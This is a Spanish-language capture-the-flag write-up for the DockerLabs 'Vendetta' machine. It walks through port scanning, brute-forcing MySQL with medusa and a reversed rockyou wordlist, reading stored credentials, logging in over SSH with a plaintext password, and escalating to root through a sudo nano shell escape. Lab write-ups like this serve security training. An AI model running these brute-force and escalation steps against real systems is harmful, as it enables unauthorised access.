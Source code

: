 ```yaml
---
layout: post
title: "Vendetta"
date: 2024-11-29
 13:25:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Vendetta </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubriendo los puertos abiertos tenemos la 22, 80 y 3306.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -Pn -n 10.88.0.2`

![img](/notas/public/img/dockerlabs/vendetta/nmap.png){:.margin}

**2\.** Revisamos la web, observando cuidadosamente podemos ver la V en negrita lo que nos hace pensar en un potencial usuario ya que mas no tenemos.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/vendetta/web.png){:.margin}

**3\.** Hacemos fuerza bruta al mysql, para esto inverti el rockyou ya que tenia buen tiempo esperando; decidi invertirlo y quitar los caracteres no imprimibles; y ojo el usuario V en mayuscula.

`tac /usr/share/wordlists/rockyou.txt | strings > wordlist`

`medusa -h 172.17.0.2 -u V -P wordlist -M mysql -n 3306`

![img](/notas/public/img/dockerlabs/vendetta/medusa.png){:.margin}

_Me paso que estaba bloqueado el 172.17.0.1 para esto ingresamos al contenedor **docker exec -it container_id_or_name bash** y ejecutamos **mariadb-admin flush-hosts**; ademas con hydra me bloqueaba continuamente asi que use medusa_ 

<br>

**4\.** Nos conectamos a mysql; encontramos unas credenciales que suponemos que son para acceder por el ssh.

`mysql -h 172.17.0.2 -u V -pie168`

`show databases;`

`use BTN;`

`show tables;`

`select * from users;`

![img](/notas/public/img/dockerlabs/vendetta/mysql.png){:.margin}
![img](/notas/public/img/dockerlabs/vendetta/mysql1.png){:.margin}

**5\.** Accedemos por el ssh con estas credenciales.

`sshpass -p "OldBailey" ssh Vendetta@172.17.0.2 -p 22`

![img](/notas/public/img/dockerlabs/vendetta/ssh.png){:.margin}

**6\.** Buscamos binarios SUID; encontramos uno y aprovechamos de este para escalar a root. Ojo [gtfobins](https://gtfobins.github.io/gtfobins/nano/#sudo).

`sudo -l`

`sudo /usr/bin/nano`

`ctrl + r`

`ctrl + x`

`reset; bash 1>&0 2>&0`

![img](/notas/public/img/dockerlabs/vendetta/sudol.png){:.margin}
![img](/notas/public/img/dockerlabs/vendetta/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>